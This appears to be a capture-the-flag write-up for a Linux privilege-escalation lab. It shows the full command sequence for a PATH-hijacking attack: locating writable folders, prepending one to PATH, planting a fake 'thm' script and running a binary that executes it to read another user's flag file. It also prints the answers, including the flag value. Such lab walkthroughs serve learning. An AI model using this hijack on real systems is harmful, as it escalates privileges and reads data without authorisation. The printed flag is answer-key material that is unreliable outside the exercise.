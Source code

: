 ## In Linux, the PATH environment variable defines where the system looks for executables. If a writable folder is included in PATH, an attacker can hijack an application to execute a malicious script.

### Q.1: What is the odd folder you have write access for?

Let’s move on. We are getting quite close now!
To see the folders for which we have write access we can run the following command:

```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
We see a lot of results, but the one that stands out to me is **/home/murdoch**.

### Answer: /home/murdoch

### Q.2: Exploit the $PATH vulnerability to read the content of the flag6.txt file.

Now, to find a vulnerability, let’s have a look at the **/home/murdoch/** folder. In it we find a **test** executable, and a python script **thm.py**, which both try to call an executable called thm.

We know that we have access to the /home/murdoch/ folder, and this folder should now be added to the PATH. Do so by running this command:
```export PATH=/home/murdoch:$PATH```

Now check the path: ```echo $PATH```

These would show this: 
```/home/murdoch:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin```

Now we need to find the path of **flag6.txt**. To find the flag we've to run this command: ```find / -name flag6.txt 2>/dev/null```.
The flag is located at: **/home/matt/flag6.txt**

To read the content of the txt file, we could create a simple cat command to this location: ```echo 'cat /home/matt/flag6.txt' > thm```

Now we have three file at **/home/murdoch/**. These script will make us to read the content of the flag6.txt.

Now, save the file, and try to run the **test** or **thm.py** file. This will fail with a permission denied message. This is because we need to give it executable rights: ```chmod +x thm```

We could run the **test** file at the **/home/murdoch** by running this: ```./test```
This would give the flag 

### Q.3: What is the content of the flag6.txt file?

To read the content of the flag6.txt, run this command: ```./test```
### Answer: THM-736628929
